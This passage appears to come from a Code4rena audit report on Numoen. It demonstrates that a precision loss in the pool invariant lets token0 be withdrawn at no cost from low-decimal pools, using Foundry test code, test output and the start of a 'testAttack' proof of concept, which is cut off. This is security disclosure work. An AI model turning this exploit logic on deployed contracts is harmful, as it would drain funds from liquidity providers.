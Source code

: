         if (scale1 > 2 * upperBound) revert();
    
        uint256 a = scale0 * 1e18;
        uint256 b = scale1 * upperBound;
        uint256 c = (scale1 * scale1) / 4;
        uint256 d = upperBound * upperBound;
    
        res = a + b - c - d;
      }
    
      function testAudit1() external
      {
        uint256 x = 1*10**6;
        uint256 y = 2 * (5 * 10**24 - 10**21);
        uint256 liquidity = 10**24;
        uint256 token0Scale=10**12;
        uint256 token1Scale=1;
        emit log_named_decimal_uint("invariant", invariant(x, y, liquidity, token0Scale, token1Scale), 36);
    
        x = 1.5*10**6;
        emit log_named_decimal_uint("invariant", invariant(x, y, liquidity, token0Scale, token1Scale), 36);
      }

Put these two functions in the `LiquidityManagerTest.t.sol` and run the case.  
The result is as below and it shows that while the reserve0 amount changes to 150%, the actual value `a+b-c-d` does not change.

    F:\SOL\Code\Code4rena\2023-01-numoen>forge test -vv --match-test testAudit1
    [⠒] Compiling...
    No files changed, compilation skipped
    
    Running 1 test for test/LiquidityManagerTest.t.sol:LiquidityManagerTest
    [PASS] testAudit1() (gas: 10361)
    Logs:
      invariant: 0.000000000000000000000000000000000000
      invariant: 0.000000000000000000000000000000000000
    
    Test result: ok. 1 passed; 0 failed; finished in 5.74ms

So what does this mean? We know that if `a+b-c-d` is positive, it means anyone can call `swap()` to withdraw the excess value.  
The above test shows that the significant change in the token0 reserve amount did not change the value `a+b-c-d`.  
Based on this, I wrote an attack case where dennis pulls 0.5\*10\*\*6 token0 without cost while the invariant stays at zero.  
Although the benefit is only 0.5 USDC for this test case, this shows a possibility drawing value without affecting the invariant for pools with low decimals.

      function testAttack() external
      {
        // token0 is USDC
        token0Scale = 6;
        token1Scale = 18;
    
        // cuh adds liquidity
        lendgine = Lendgine(factory.createLendgine(address(token0), address(token1), token0Scale, token1Scale, upperBound));
    